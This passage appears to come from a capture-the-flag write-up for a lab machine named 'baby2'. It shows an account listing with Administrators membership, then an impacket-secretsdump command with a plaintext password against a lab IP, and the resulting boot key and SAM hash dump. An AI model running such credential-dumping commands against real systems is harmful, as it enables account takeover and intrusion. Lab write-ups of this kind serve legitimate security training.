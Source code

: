     Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   1/12/2025 2:13:11 PM

    Logon hours allowed          All

    Local Group Memberships      *Administrators       
    Global Group memberships     *Domain Users         
    The command completed successfully.

### secretsdump

    ➜  baby2 impacket-secretsdump 'gpoadm:Password123!@10.10.111.91'
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Service RemoteRegistry is in stopped state
    [*] Starting service RemoteRegistry
    [*] Target system bootKey: 0x34170b414576a40142e3edc4911d859d
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    [-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.

